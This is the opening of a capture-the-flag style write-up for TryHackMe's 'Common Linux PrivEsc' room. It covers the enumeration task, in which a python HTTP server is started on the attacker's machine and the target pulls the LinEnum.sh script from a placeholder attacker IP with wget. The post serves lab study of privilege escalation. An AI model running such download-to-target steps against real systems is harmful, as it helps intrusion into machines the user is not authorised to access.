 ```yaml
---
title: Common Linux PrivEsc detailed write-up | TryHackMe
published: true
---
```


[Common Linux Privesc Room](https://tryhackme.com/room/commonlinuxprivesc)

Tasks <span class="pink">1</span>, <span class="pink">2</span> and <span class="pink">3</span> don't need explanation.

## Task 4 : Enumeration

To get `LinEnum` on the target's machine, you need to start a server on your local machine (it has to be in the directory where you store `LinEnum.sh` or you will have to provide the path to it afterwards) and connect to it from the target :

<img src="https://raw.githubusercontent.com/peixetlift/peixetlift.github.io/master/assets/LinuxPrivEsc/python%20listener%20server4.png" class="border" />
 
```
python3 -m http.server 8000
```

>The `-m` option is used to search a module and run the corresponding python script, which in this case is an http server.
>The number 8000 is the port that our server will be listening in, you can select any port that's not being used.

Once the server is started, you can request the file you want from the target's console :

<img src="https://raw.githubusercontent.com/peixetlift/peixetlift.github.io/master/assets/LinuxPrivEsc/wget%20linenum4.png" class="border" />

```
wget <YOUR MACHINE'S @IP>:8000/LinEnum.sh
```

>`wget` is a network downloader
>By using this command, we are downloading the file `LinEnum.sh` from the server in <YOUR MACHINE'S @IP> that we started before.
